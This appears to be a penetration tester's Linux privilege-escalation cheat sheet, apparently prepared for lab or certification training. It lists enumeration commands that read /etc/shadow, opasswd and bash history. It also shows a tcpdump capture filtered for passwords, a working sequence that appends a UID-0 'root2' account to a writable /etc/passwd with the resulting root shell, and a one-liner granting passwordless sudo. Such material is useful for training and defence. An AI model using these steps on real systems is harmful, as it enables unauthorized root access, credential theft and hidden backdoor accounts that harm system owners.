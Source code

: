 **[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)**

There are several key pieces of information we should always obtain:
```text
- User context
	# id
	# cat /etc/passwd (check write permissions)
	# cat /etc/shadow (check read permissions, use unshadow if you can read it)
	# cat /etc/security/opasswd (check read permissions)
	# hostname
	# sudo -l
	# Check /opt folder
- Abuse Setuid Binaries and Capabilities
	# /usr/sbin/getcap -r / 2>/dev/null (Find cap_setuid+ep, even grep by cap_setuid)
- Directories writable by the current user
	# find / -writable -type d 2>/dev/null
	# find / -perm -4000 2>/dev/null (Check binaries in GTFO Bins)
- Scheduled tasks
	# ls -lah /etc/cron*
	# sudo crontab -l
	# grep "CRON" /var/log/syslog
- Information about the operating system release and version
	# cat /etc/issue
	# cat /etc/os-release
	# uname -a
- Processes (Also execute PSPY binary)
	# ps aux
- Check for multiple networks to pivot
	# ip a
	# route
- Connections
	# ss -tulpn
- Applications
	# dpkg -l
- Mounted filesystems
	# cat /etc/fstab
	# mount
- Available disks
	# lsblk
- Kernel loaded modules
	# lsmod
	# /sbin/modinfo <loaded module> (find out more about the specific module)
- SUID-marked binaries
	# find / -perm -u=s -type f 2>/dev/null
- Environment variables
	# env
- Bash configuration and history
	# cat .bashrc
	# cat .bash_history
```

After this enumeration, execute **[my script](https://github.com/ajcriado/burbles-by-peluqqi)** and then launch **unix-privesc-check** and **linpeas.sh**. If nothing found, check **pspy** and inspect the processes

Let's try to capture traffic in and out of the loopback interface, then dump its content in ASCII using the **-A** parameter. Ultimately, we want to filter any traffic containing the "pass" keyword.

```text
joe@debian-privesc:~$ sudo tcpdump -i lo -A | grep "pass"
[sudo] password for joe:
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...{...zuser:root,pass:lab -
...5...5user:root,pass:lab -
```

With write access in /etc/passwd file we can create a root user with our own password (we can even change root user password):

```bash
joe@debian-privesc:~$ openssl passwd w00t
Fdzt.eqJQ4s0g

joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

joe@debian-privesc:~$ su root2
Password: w00t

root@debian-privesc:/home/joe# id
uid=0(root) gid=0(root) groups=0(root)
```

##### Compile binaries

Check for compilers in the machine: 
```bash
apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | grep gcc
```

##### Credential Hunting
https://academy.hackthebox.com/module/147/section/1320

##### Add user to sudoers file
`echo 'username  ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers`